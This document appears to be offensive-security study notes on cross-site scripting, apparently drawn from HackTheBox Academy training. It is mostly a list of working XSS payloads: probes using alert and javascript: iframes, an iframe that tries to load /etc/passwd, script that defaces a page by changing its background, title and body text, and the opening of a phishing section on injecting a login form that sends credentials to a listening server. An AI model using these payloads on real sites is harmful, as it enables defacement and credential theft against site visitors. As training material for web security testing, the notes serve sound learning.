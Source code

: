 # Discovery
## Payloads
```
<script>alert(window.origin)</script>
<plaintext>
<script>print()</script>
<img src="" onerror=alert(window.origin)>
<iframe src=\"javascript:alert('xss')\">
<iframe src="javascript:alert('xss')">
<iframe src='javascript:alert('xss')'>
<script>document.write('<iframe src=file:///etc/passwd></iframe>');</script>
```

# Defacing
One of the most common attacks usually used with stored XSS vulnerabilities is website defacing attacks. Defacing a website means changing its look for anyone who visits the website.

## Changing Background
```html
<script>document.body.style.background = "black"</script>
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

## Changing Page Title
```html
<script>document.title = 'HackTheBox Academy'</script>
```

## Changing Page Text
```js
document.getElementById("todo").innerHTML = "New Text"
document.getElementsByTagName('body')[0].innerHTML = "New Text"

<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```


# Phishing
## Login Form Injection
Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.
